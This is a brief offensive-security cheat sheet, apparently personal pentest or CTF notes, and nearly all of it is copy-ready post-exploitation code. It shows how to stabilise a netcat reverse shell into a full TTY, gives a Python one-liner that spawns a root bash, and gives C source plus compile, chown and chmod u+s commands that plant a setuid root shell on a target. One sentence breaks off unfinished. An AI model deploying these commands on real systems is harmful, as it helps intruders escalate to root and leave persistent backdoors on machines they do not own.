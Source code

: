 # Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>
```

## SetUID Python

If you can get 

```python
python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

## SetUID C Code

If you need a basic C program that you can set the SetUID bit, use this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }
```

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

```
gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid
```

